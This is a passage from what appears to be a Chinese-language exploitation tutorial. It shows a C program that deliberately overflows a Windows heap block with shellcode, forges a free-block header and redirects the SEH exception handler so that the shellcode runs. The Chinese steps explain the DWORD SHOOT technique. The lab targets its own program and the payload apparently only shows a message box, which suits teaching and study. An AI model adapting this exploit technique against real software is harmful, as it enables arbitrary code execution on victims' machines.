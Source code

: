 </code></pre>

注意在执行的时候去掉__asm int 3调试

### 3. 堆溢出中利用SEH

<pre><code>
#include &lt;windows.h&gt;

char shellcode[] = 
	"\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x16\x01\x1A\x00\x00\x10\x00\x00"	// heap of the ajacent free block(尾块)
	"\x88\x06\x36\x00"		//0x00360688 is the address of shellcode in first Heapblock
	"\x90\x90\x90\x90";		//target of DWORD SHOOT

DWORD MyExceptionhandler(void)
{
	ExitProcess(1);
	return 0;
}

int main()
{
	HLOCAL h1=0, h2=0;
	HANDLE hp;
	hp = HeapCreate(0, 0x1000, 0x10000);
	h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
	memcpy(h1, shellcode, 0x200);	// overflow here
									// noticed 0x200 means 512
	__asm int 3				// used to break the process
	__try
	{
		h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
	}
	__except(MyExceptionhandler()){}
	return 0;
}

</code></pre>

实验方案：
1. 溢出第一个堆块的数据将写入后面的空闲堆块，第二次分配的时候发生DWORD SHOOT。
2. 将SEH的异常回调函数地址作为DWORD SHOOT目标，将其替换为shellcode入口地址，异常发生后，操作系统将错误地把shellcode当作异常处理函数而执行。
